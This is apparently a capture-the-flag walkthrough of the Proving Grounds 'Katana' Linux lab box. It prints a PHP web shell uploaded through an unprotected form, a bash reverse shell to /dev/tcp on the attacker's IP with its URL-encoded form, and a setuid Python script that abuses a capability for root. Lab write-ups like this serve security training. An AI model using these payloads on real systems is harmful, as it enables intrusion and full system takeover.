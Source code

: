 ```yaml
---
layout: default
title: Katana
parent: Proving Grounds - Linux
nav_order: 2
---
```


# Katana

---

## Host Info

- **OS**: Linux
- **Hostname**: katana
- **IP**: 192.168.183.83

## Discovered Ports for Enumeration

- 21 - FTP
- 22 - SSH
- 80 - HTTP
- 7080 - empoweri
- 8088 - HTTP
- 8715 - HTTP

## Users and Credentials

- **Users**:
- **Credentials**:

# Scanning (Nmap)

---

```bash
sudo nmap -Pn -p- -sC -sV -T4 -vv --open 192.168.183.83
```

# Enumeration

---

## 21 - FTP

Anonymous logon not allowed.

## 80 - HTTP

Authenticate to /ebook/admin.php with **_admin:admin_** but ends up being deadend.

## 8088 - HTTP

Running **wfuzz** returns the following files:

- index.html
- upload.php
- upload.html

**upload.html** provides a place to upload files.

![upload](../../../assets/images/ctfs/proving_grounds/katana/upload.png)

### Upload PHP cmd shell

Create **shell.php** with the following contents:

```bash
<?php
echo "<pre>";
passthru($_GET['cmd']);
echo "</pre>";
?>
```

After successful upload the output indicates that the PHP web shell has been placed on the "other web server"

![upload_message](../../../assets/images/ctfs/proving_grounds/katana/upload_message.png)

# Exploitation

---

## Reverse Shell via PHP Web Shell

We have a PHP web shell with command execution.

Generate a reverse shell using **revshellgen**

```bash
# Generate reverse shell payload
revshellgen -i 192.168.45.217 -p 9001 -t bash

# URL encode the payload
urlencode "bash -i >& /dev/tcp/192.168.45.217/9001 0>&1"

# Output
bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261
```

Execute the URL encoded payload in the PHP web shell

```bash
# URL to execute
http://192.168.183.83:8715/katana_shell.php?cmd=bash -c "bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.45.217%2F9001%200%3E%261"
```

Receive back a reverse shell on the netcat listener.

![rev_shell](../../../assets/images/ctfs/proving_grounds/katana/rev_shell.png)

# Post-Exploitation

---

Elevate shell

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
ctrl+z
stty size
stty raw -echo
fg
stty rows <first_value>
stty cols <second_value>
export TERM=xterm-256color
```

## Check for extended capabilities

```bash
getcap -r / 2>/dev/null
```

![extend_cap](../../../assets/images/ctfs/proving_grounds/katana/extend_cap.png)

Within the /tmp directory, create **priv.py** that does the following:

1. Sets the UID to 0
2. Generates a /bin/bash shell

```python
import os

os.setuid(0)
os.system("/bin/bash")
```

Make **priv.py** executable and run with python2.7 to get root shell.

![root](../../../assets/images/ctfs/proving_grounds/katana/root.png)
